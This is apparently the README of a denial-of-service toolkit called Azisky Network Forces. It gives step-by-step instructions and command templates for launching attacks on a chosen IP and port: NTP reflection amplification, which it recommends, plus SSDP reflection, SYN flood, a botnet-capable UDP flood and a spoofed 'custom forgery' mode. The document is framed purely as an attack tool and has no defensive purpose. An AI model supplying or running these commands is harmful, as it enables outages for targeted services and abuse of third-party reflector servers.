 # Azisky Network Forces(ANF)
This script is running on Linux system.
anf/server/ is for windows user, but you have to have a web package sender server to run this.
---
- For Linux user： 
- 1: You need to upload this to your system.
- 2: Open terminal, use "./anf" to run anf
- 3: Follow the guides&examples to launch your attach!

For Windows user: 
- 1: you will have to own a package sender server.
Update ntp script: "./TFDDOS ntp update -1"
Update udp script: "./TFDDOS udp update -1"
Update syn script: "./TFDDOS syn update -1"
attack : "sudo -i"
custom forgery ： "./la us 100 ntp udp ssdp -1"

There are following methods to attach:
- NTP reflection amplification(Recommended) ： "./ntp {ip} {port} ntp.txt 10 -1 {time(seconds)}"
- SSDP reflection : "./ssdp {ip} {port} ssdp.txt 10 -1 {time(seconds)}"
- SYN flood : "./syn {ip} {port} {time(seconds)}"
- UDP botnet ： "./udp {ip} {port} 10 888 -1 {time(seconds)}" (botnet supported)
